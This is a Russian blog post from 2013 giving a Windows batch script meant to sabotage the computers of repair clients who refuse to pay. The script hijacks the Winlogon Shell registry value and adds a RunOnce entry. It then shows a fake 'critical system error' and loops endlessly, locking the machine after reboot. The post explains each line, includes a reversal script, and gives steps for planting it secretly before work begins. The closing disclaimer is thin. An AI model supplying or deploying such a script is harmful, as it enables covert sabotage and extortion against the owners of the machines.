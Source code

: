 +++
title = "Бомба для недобросовестного клиента"
date = 2013-08-23T21:01:00Z
updated = 2013-08-23T21:01:54Z
blogimport = true 
[author]
	name = "devi1"
	uri = "https://www.blogger.com/profile/05777499482649623616"
+++

<span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">Обратился ко мне один знакомый аникейщик. Он хотел, чтобы я написал скрипт, который будет как либо портить жизнь его клиентов, которые его кидают. Например, они согласились на ремонт и его оплату, т.е. согласились с суммой. Когда работа уже сделана, клиент выгоняет тебя, ничего не заплатив. Как с этим бороться? Я написал простой батничек. Вот его исходники:</span><br /><br /><a name='more'></a><br style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;" /><br /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">@echo off</span><br /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d %systemroot%\restore.bat /f &gt;nul</span><br /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\W</span><wbr style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;"></wbr><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">indows\CurrentVersion\RunOnce" /d %systemroot$\restore.bat /f &gt;nul</span><br /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">Echo Attention! Crytical system error! Kernel rebilding. Don`t touching a keyboard!</span><br /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">:sysinf &gt;nul</span><br /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">systeminfo &gt;nul</span><br /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">goto sysinf &gt;nul</span><br /><br style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;" /><br style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;" /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">Теперь разберемся. Первые две строчки прописывают файл в реестр. Сначала для запуска вместо explorer.exe, а затем для единоразового автоматического запуска при старте системы (для любого пользователя). В конце всех строк, кроме первой и четвертой имеется параметр "&gt;nul". Этот параметр отвечает за отсутствие вывода результатов работы команд.</span><br /><br style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;" /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">Пятая строчка является меткой, по вызову которой следует незамедлительно мыполнить нижеследующие команды.</span><br /><br style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;" /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">Шестой строчкой я делаю запрос о состоянии системы. Т.е. какое железо и обновления установлены на компе. Команду можно смело сменить на другую. Было необходимо, чтобы были сменяющиеся надписи.</span><br /><br style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;" /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">Седьмая строка возвращает выполнение на метку (пятая строка) после выполнения шестой строки, что приводит машину к замкнутому циклу. По сути, появляется тот же самый порно баннер, только его можно закрыть. С другой стороны, после перезапуска он появится вновь.</span><br /><br style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;" /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">А вот второй код, убирающий действие первого.</span><br /><br style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;" /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">@echo off</span><br /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d explorer.exe /f &gt;nul</span><br /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\W</span><wbr style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;"></wbr><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">indows\CurrentVersion\RunOnce" /d &nbsp; /f &gt;nul</span><br /><br style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;" /><br style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;" /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">Схема работы.</span><br /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">1. Копируете первый батник (restore.bat) в папку виндоус на системе клиента. Внимание! Сделать это надо ДО начала платных работ.</span><br /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">2. Запускаем его и как только появляется надпись, закрываем (значит, что ключи прописаны).</span><br /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">3. Если вас выгоняют - просто уходим. Все работает до первой перезагрузки. Если все нормально - запускаем второй батник (называйте, как хотите). Он вернет систему в первоначальное состояние.</span><br /><br style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;" /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;">Конечно, использовать его не надо. На самом деле, он необходим, чтобы вы знали, куда копать, если появится подобное. А также, чтобы понимали, что могут сделать люди, которых кинули. Поговорка "Скупой платит дважды" как раз про эту ситуацию.</span><br /><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;"><br /></span><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;"><br /></span><span style="background-color: white; color: #333333; font-family: Arial, sans-serif; font-size: 13px; line-height: 16px;"><a href="http://dojuk.livejournal.com/3726.html">Отсюда</a></span>
